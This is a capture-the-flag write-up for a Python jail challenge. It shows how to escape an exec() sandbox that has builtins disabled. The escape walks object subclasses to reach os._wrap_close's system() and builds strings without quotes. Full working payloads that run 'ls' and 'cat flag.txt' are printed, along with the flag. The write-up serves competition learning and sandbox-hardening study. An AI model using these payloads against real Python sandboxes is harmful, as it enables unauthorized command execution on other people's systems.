



# Build yourself in
## Description
The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Methodology
This is an `nc` challenge without a source code.

When we connect we have some sort of a "shell". We can try to input some special character like `$`.
```python
3.8.9 (default, Apr 15 2021, 05:07:04) 
[GCC 10.2.1 20201203]

[*] Only  are allowed!

>>> $
Traceback (most recent call last):
  File "/app/build_yourself_in.py", line 16, in <module>
    main()
  File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
  File "<string>", line 1
    $
    ^
SyntaxError: invalid syntax
```

The program crashed and we see we are inside and `exec()` function with `__builtins__` disabled which will complicate things. Because of this we cannot use any builtin python methods.

We can use python `introspection` to get all available classes from the interpreter.

```
>>> print(().__class__.__base__.__subclasses__())
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>,
[REDACTED]
```

We need a class that has a reference to `__import__` or has a reference to `system()` function so we can exec OS commands. Class `catch_warnings` has a reference to `__import__` but the this current interpreter doesn't have a reference to this class. There is another class `os._wrap_close`, which has a reference to `__globals__['system']` with which we can execute commands. We can find this class with this command (props to HackTricks).

```python
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == '_wrap_close' ][0]['system']('ls')
```

With this piece of code we will loop the list of classes and find the class called `_wrap_close` and execute `ls`.



We cannot use quotes. Luckily, I wrote a script that can generate string literals in python without using `'` or `"`. My [script](https://github.com/s-3ntinel/py-string-assembler) is here. We will use it to generate string literals for strings `_wrap_close`, `system` and `ls`. Be sure to use python3 with the script because the challenge uses python3 also.

```bash
$ python3 py-string-assembler.py -s "_wrap_close"
().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3]

$ python3 py-string-assembler.py -s "system"                                                                                              ().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]

$ python3 py-string-assembler.py -s "ls"
().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[23]
```

Substitute the output for the strings and we have a working payload.

## Exploit
Payload for `ls`.

```python
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == ().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3] ][0][().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]](().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[23])
```




Now just generate a string `cat flag.txt` from the script and substitute it in payload. Payload for `cat flag.txt`.

```python
[ x.__init__.__globals__ for x in ().__class__.__base__.__subclasses__() if x.__name__ == ().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[99]+().__class__.__base__.__subclasses__()[0].__doc__[13]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[2]+().__class__.__base__.__subclasses__()[0].__doc__[11]+().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[3] ][0][().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[1]+().__class__.__base__.__subclasses__()[0].__doc__[23]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[3]+().__class__.__base__.__subclasses__()[0].__doc__[17]](().__class__.__base__.__subclasses__()[0].__doc__[9]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[0].__doc__[20]+().__class__.__base__.__subclasses__()[4].__doc__[103]+().__class__.__base__.__subclasses__()[4].__doc__[174]+().__class__.__base__.__subclasses__()[0].__doc__[16]+().__class__.__base__.__subclasses__()[4].__doc__[16]+().__class__.__base__.__subclasses__()[4].__doc__[127]+().__class__.__base__.__subclasses__()[0].__doc__[0]+().__class__.__base__.__subclasses__()[4].__doc__[5]+().__class__.__base__.__subclasses__()[0].__doc__[0])
```



## Flag
**CHTB{n0_j4il_c4n_h4ndl3_m3!}**